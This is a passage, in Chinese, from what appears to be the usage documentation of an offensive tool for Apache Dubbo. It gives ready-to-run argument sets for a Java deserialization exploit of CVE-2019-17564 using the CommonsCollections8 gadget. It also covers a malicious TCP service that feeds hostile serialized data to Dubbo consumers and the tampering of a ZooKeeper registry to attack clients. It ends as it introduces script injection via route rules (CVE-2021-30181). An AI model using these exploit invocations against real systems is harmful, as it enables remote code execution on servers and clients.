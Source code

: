 例（测试dubbo在使用http协议+java反序列化，dubbo < 2.7.5前使用http协议，后续改为了jsonrpc）CVE-2019-17564：
```
--target
127.0.0.1:8080/org.apache.dubbo.samples.http.api.DemoService
--protocol
http
--serialization
java
--gadget
CommonsCollections8
--args
/System/Applications/Calculator.app/Contents/MacOS/Calculator
```
#### 3.1.2. 恶意服务-被动攻击（攻击客户端consumer）
什么意思呢？其实就是起一个恶意的TCP服务，让Dubbo Consumer连接进来交互，返回恶意的序列化数据给Consumer，进而攻击、入侵Consumer！
- e：表示启动一个恶意的TCP服务
- evilHost：恶意TCP服务的Host
- evilPort：恶意TCP服务的port
- serialization：序列化协议
- gadget：反序列化利用链
- args：反序列化利用链参数
例（使用恶意服务攻击dubbo客户端）：
```
-e
-evilHost
127.0.0.1
-evilPort
44444
--serialization
java
--gadget
CommonsCollections8
--args
/System/Applications/Calculator.app/Contents/MacOS/Calculator
```
#### 3.1.3. 恶意服务-主动攻击（攻击客户端consumer）
例（使用恶意服务并主动篡改zookeeper，主动攻击dubbo客户端）：
```
-e
-evilHost
127.0.0.1
-evilPort
44444
-registry
zookeeper
-registryURL
127.0.0.1:2181
--serialization
java
--gadget
CommonsCollections8
-f
/Users/xuanyonghao/security/java/my-project/dubbo-exp/check.data
```
### 3.2. route攻击（CVE-2021-30181）
#### 3.2.1. 注入js脚本主动攻击（攻击客户端consumer）
这个是往注册中心注入恶意地址、脚本，实施对Consumer的攻击！

